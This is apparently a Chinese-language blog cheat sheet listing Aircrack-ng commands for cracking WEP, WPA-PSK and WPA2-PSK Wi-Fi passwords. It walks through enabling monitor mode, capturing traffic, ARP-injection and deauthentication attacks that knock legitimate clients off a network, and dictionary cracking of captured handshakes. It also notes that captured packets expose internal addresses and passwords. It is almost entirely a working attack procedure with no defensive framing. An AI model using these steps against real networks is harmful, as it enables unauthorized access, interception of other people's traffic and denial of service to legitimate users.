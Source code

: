 ```yaml
---
layout: post
title: Aircrack-ng 基本使用步骤
category: CheatSheet
tag: Aircrack-ng
latest: 2015年12月23日 22:37:47
---
```


WEP Crack
-

1、载入无线网卡

```
ifconfig -a
```

2、激活无线网卡

```
ifconfig wlan0 up
iwconfig
```

3、切换无线网卡到工作模式为 **监听**

```
airmon-ng start wlan0
```

4、预探测无线网络概况

```
airodump-ng mon0
```

> _mon0_ 为之前已经载入并激活监听模式的无线网卡。

5、锁定攻击目标

```
airodump-ng --ivs –w longas -c 6 wlan0
```

6、对目标 AP 使用 ArpRequest 注入攻击以加快抓包速度

```
aireplay-ng -3 -b AP的mac -h 客户端的mac mon0 
```

7、回到 airodump-ng 界面查看目标 AP 到数据包情况

8、对抓取到的数据包进行 WEB 破解

```
aircrack-ng 捕获的ivs文件
```

> 在抓取的无线数据报文达到了一定数量后，一般都是指IVs值达到2万以上时，就可以开始破解，若不能成功，比如密码难度较大，就等待数据报文的继续抓取然后多试几次。

如果破解成功，在 "KEY FOUND" 字样后面的 "ASCII" 字符串即为密码。

9、**补充**

- 捕获所有数据包而非过滤之后的 IVs

这样的话，捕获的数据包将不再是longas-01、ivs，而是longas-01、cap。

> 若只是为了破解的话，建议保存为ivs，优点是生成文件小且效率高。若是为了破解后同时来对捕获的无线数据包分析的话，就选为cap，这样就能及时作出分析，比如内网IP地址、密码等，当然，缺点就是文件会比较大。可以使用 `du` 指令来比较两者的大小。

破解 、cap 数据包也是使用 aircrack-ng 指令：

```
aircrack-ng 捕获的 cap 文件
```

WPA-PSK Crack
-

1、工具升级

升级 Aircrack-ng 。同时，为了更好地识别出无线网络设备及环境，最好对airodump-ng的OUI库进行升级，先进入到Aircrack-ng的安装目录下，然后输入命令如下：

```
airodump-ng-oui-update 
```

2、载入并激活无线网卡至monitor即监听模式

```
startx            进入到图形界面 
ifconfig –a       查看无线网卡状态
ifconfig  wlan0  up     载入无线网卡驱动
airmon-ng  start  wlan0  激活网卡到monitor模式
```

3、探测无线网络并对目标 AP 抓包

```
airodump-ng -c 6 –w longas mon0 
```

4、进行Deauth攻击加速破解过程

> 和破解WEP时不同，这里为了获得破解所需的WPA-PSK握手验证的整个完整数据包，无线黑客们将会发送一种称之为“Deauth”的数据包来将已经连接至无线路由器的合法无线客户端强制断开，此时，客户端就会自动重新连接无线路由器，黑客们也就有机会捕获到包含WPA-PSK握手验证的完整数据包了。此处具体输入命令如下：

```
aireplay-ng -0 1 –a AP的mac -c 客户端的mac wlan0
```

若我们没有在airodump-ng工作的界面上看到上面的提示，那么可以增加Deauth的发送数量，再一次对目标AP进行攻击。比如将-0参数后的数值改为10。

5、开始破解 WPA-PSK 报文

```
aircrack-ng -w dic 捕获的cap文件 
```

WAP2-PSK Crack
-

对于启用 WPA2-PSK 加密的无线网络，其攻击和破解步骤及工具是完全一样的，不同的是，在使用airodump-ng进行无线探测的界面上，会提示为WPA CCMP PSK。



参考
-

- <http://netsecurity.51cto.com/art/201105/264844_all.htm>
